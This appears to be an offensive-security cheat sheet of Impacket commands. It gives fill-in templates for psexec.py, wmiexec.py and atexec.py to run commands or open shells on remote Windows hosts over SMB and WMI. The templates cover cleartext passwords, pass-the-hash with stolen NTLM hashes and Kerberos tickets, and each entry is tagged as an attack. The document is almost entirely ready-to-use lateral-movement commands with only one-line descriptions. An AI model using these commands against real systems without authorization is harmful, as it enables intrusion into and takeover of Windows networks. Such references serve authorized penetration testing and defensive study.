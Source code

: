 # impacket

% impacket, windows, exec

## PSEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT 
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT 
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT 
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT 

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT 
Using \pipe\atsvc via SMB

```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT 
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
atexec.py -hashes <hash> <user>@<ip> "command"
```
